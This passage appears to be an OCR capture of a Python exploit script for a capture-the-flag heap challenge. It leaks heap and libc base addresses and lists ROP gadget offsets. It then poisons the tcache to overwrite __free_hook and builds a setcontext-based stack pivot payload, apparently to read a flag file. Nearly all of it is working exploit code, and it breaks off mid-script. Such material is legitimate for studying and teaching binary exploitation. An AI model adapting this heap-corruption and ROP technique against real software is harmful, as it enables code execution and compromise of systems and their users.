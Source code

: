 ```python
    free(i)

show(8)

p.recv(0x38)

heap_base = u64(p.recv(8)) - 0x1470

rl(b'\x7f')

libc_base = get_addr() - 0x1ecbe0 #

 

rax = libc_base + 0x36174

rdi = libc_base + 0x23b6a

rsi = libc_base + 0x2601f

rdx = libc_base + 0x142c92

rsp = libc_base + 0x2f70a

ret = libc_base + 0x22679

syscall = libc_base + 0x2284d

 

mov_rdx_rdi_ = libc_base + 0x151990

setcontext = libc_base + 0x54F5D 

buf = heap_base + 0x3000

flag = heap_base + 0x2088

 

free_hook = libc_base + libc.sym['__free_hook']

add(10, 0x20, b'a')

add(11, 0x20, b'a')

free(11)

free(10)

edit(10, p64(free_hook - 8))

add(12, 0x20, b'a')

payload = b'\x00'*8 + p64(mov_rdx_rdi_)

add(13, 0x20, payload)

add(14, 0xc0, (p64(heap_base + 0x1e20)*2 + p64(setcontext)*4).ljust(0xa0, b'\x00') + p64(heap_base + 0x640) + p64(ret))

 

```